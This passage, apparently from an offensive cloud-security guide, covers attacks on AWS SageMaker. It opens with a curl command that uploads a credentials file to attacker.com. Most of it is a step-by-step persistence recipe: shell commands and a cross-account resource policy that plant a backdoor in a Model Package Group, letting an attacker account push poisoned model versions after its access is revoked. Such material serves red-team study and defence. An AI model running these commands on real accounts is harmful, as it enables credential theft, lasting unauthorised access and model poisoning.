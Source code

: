 ```bash

# Alternatively, exfiltrate via HTTP POST*

curl -X POST -F "file=@/tmp/creds.json" http://attacker.com/upload
```

## Persistence via Model Registry resource policy (PutModelPackageGroupPolicy)

Abuse the resource-based policy on a SageMaker Model Package Group to grant an external principal cross-account rights (e.g., CreateModelPackage/Describe/List). This creates a durable backdoor that allows pushing poisoned model versions or reading model metadata/artifacts even if the attacker’s IAM user/role in the victim account is removed.

Required permissions
- sagemaker:CreateModelPackageGroup
- sagemaker:PutModelPackageGroupPolicy
- sagemaker:GetModelPackageGroupPolicy

Steps (us-east-1)
```bash
# 1) Create a Model Package Group
REGION=${REGION:-us-east-1}
MPG=atk-mpg-$(date +%s)
aws sagemaker create-model-package-group \
  --region "$REGION" \
  --model-package-group-name "$MPG" \
  --model-package-group-description "Test backdoor"

# 2) Craft a cross-account resource policy (replace 111122223333 with attacker account)
cat > /tmp/mpg-policy.json <<JSON
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowCrossAccountCreateDescribeList",
      "Effect": "Allow",
      "Principal": {"AWS": ["arn:aws:iam::111122223333:root"]},
      "Action": [
        "sagemaker:CreateModelPackage",
        "sagemaker:DescribeModelPackage",
        "sagemaker:DescribeModelPackageGroup",
        "sagemaker:ListModelPackages"
      ],
      "Resource": [
        "arn:aws:sagemaker:${REGION}:<VICTIM_ACCOUNT_ID>:model-package-group/${MPG}",
        "arn:aws:sagemaker:${REGION}:<VICTIM_ACCOUNT_ID>:model-package/${MPG}/*"
      ]
    }
  ]
}
JSON

# 3) Attach the policy to the group
aws sagemaker put-model-package-group-policy \
  --region "$REGION" \
  --model-package-group-name "$MPG" \
  --resource-policy "$(jq -c . /tmp/mpg-policy.json)"

# 4) Retrieve the policy (evidence)
aws sagemaker get-model-package-group-policy \
  --region "$REGION" \
  --model-package-group-name "$MPG" \
  --query ResourcePolicy --output text
```